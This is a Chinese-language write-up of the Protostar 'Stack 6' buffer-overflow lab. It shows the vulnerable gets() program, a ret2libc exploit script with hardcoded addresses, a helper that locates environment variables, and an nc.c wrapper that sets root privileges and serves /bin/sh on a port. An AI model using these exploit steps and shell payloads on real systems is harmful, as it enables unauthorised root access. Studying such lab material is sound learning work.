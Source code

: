 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行TTE="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

export TTE="whoami"

获取环境变量地址的c代码如下：

getaddress.c

![](/png/34.png)

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

```
            char \*ptr;

            if\(argc &lt; 3\) {

                            printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                            exit\(0\);

            }

            ptr = getenv\(argv\[1\]\); /\* get env var location \*/

            ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

            printf\("%s will be at %p\n", argv\[1\], ptr\);
```

![](/png/35.png)

stack6.py 的脚本如下：

![](/png/36.png)

根据反馈信息，地址做了微调。程序最后返回root.

那么，现在做一下验证，再把TTE环境变量改回"/bin/sh"试，不好用。为了得到一个shell，我们采用将环境变量设置为可以反弹shell的nc程序。

在/tmp目录下编写nc.c

\#include &lt;stdlib.h&gt;

int main\(int argc, char \*\*argv, char \*\*envp\) {

```
setuid\(0\); // These two are necessary, as system\(\) drops privileges

setgid\(0\);

char \*args\[\] = {  "nc", "-lp8080", "-e/bin/sh", \(char \*\) 0 };

execve\("/bin/nc", args, envp\);
```

}

在/tmp目录下运行得到nc

设置环境变量 RUN

export RUN=///////////////////tmp/nc

利用上面取环境变脸地址的程序/tmp/addr RUN ./stack6获取环境变量地址

然后修改stack6.py脚本地址就可以了。

在kali下监听7777端口，成功。

nc.c

![](/png/39.png)

利用addr获取变量run地址

![](/png/38.png)

![](/png/37.png)

ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

